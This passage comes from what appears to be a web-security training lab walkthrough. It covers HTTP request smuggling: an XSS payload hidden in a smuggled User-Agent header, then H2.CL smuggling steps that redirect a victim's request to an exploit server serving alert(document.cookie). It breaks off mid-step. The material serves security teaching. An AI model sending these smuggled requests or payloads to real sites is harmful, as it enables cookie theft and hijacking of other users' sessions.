     0  
      
    GET /post?postId=5 HTTP/1.1  
    User-Agent: a"/><script>alert(1)</script>  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 5  
      
    x=1`

**Note**

Note that the target user only browses the website intermittently so you may need to repeat this attack a few times before it's successful.

### Lab: H2.CL request smuggling

1.  From the **Repeater** menu, enable the **Allow HTTP/2 ALPN override** option and disable the **Update Content-Length** option.
    
2.  Using Burp Repeater, try smuggling an arbitrary prefix in the body of an HTTP/2 request by including a `Content-Length: 0` header as follows. Remember to expand the Inspector's **Request Attributes** section and change the protocol to HTTP/2 before sending the request.
    
    `POST / HTTP/2  
    Host: YOUR-LAB-ID.web-security-academy.net  
    Content-Length: 0  
      
    SMUGGLED  
      
    `
    
3.  Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.
    
4.  Using Burp Repeater, notice that if you send a request for `GET /resources`, you are redirected to `https://YOUR-LAB-ID.web-security-academy.net/resources/`.
    
5.  Create the following request to smuggle the start of a request for `/resources`, along with an arbitrary `Host` header:
    
    `POST / HTTP/2  
    Host: YOUR-LAB-ID.web-security-academy.net  
    Content-Length: 0  
      
    GET /resources HTTP/1.1  
    Host: foo  
    Content-Length: 5  
      
    x=1  
      
    `
    
6.  Send the request a few times. Notice that smuggling this prefix past the front-end allows you to redirect the subsequent request on the connection to an arbitrary host.
    
7.  Go to the exploit server and change the file path to `/resources`. In the body, enter the payload `alert(document.cookie)`, then store the exploit.
    
8.  In Burp Repeater, edit your malicious request so that the `Host` header points to your exploit server:
    